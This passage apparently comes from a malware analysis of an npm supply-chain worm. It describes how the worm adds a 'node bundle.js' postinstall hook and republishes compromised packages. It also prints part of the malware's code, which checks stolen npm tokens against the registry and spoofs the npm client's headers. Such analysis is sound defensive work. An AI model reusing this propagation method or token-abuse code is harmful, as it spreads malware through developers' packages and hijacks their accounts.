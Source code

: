 <img src="/static/NPM/image-28.png" alt="drawing" width="1000"/>

Then A postinstall script is added to the package.json with the command "node bundle.js", and the current script (bundle.js) is added to the package. The compromised package is then compressed and published to the npm registry using the npm publish command.

<img src="/static/NPM/image-30.png" alt="drawing" width="1000"/>

```
class NpmModule {
  constructor(token) {
    this.baseUrl = "https://registry.npmjs.org";
    this.userAgent = `npm/9.2.0 node/v${process.version.replace("v", "")} workspaces/false`;
    this.token = token;
  }

  async validateToken() {
    if (!this.token) return null;
    
    try {
      const response = await fetch(`${this.baseUrl}/-/whoami`, {
        method: "GET",
        headers: {
          Authorization: `Bearer ${this.token}`,
          "Npm-Auth-Type": "web",
          "Npm-Command": "whoami",
          "User-Agent": this.userAgent,
          Connection: "keep-alive",
          Accept: "*/*",
          "Accept-Encoding": "gzip, deflate, br"
        }
      });

      if (response.status === 401) {
        throw new Error("Invalid NPM token - authentication failed");
      }

      if (!response.ok) {
        throw new Error(`NPM whoami failed: ${response.status} ${response.statusText}`);
      }

      const data = await response.json();
      return data.username || null;
    } catch (error) {
      if (error instanceof Error && error.message.includes("Invalid NPM token")) {
        throw error;
      }
      throw new Error(`Failed to validate NPM token: ${error}`);
    }
  }

  getHeaders(isDetailRequest = false) {
    const headers = {
      "User-Agent": this.userAgent,
      "Accept-Encoding": "gzip, deflate, br"
    };

    if (isDetailRequest) {
      headers.Accept = "application/json";
      headers["Npm-Auth-Type"] = "web";
      headers["Npm-Command"] = "view";
      headers["Pacote-Version"] = "15.0.7";
      headers["Pacote-Req-Type"] = "packument";
      headers.Connection = "close";
```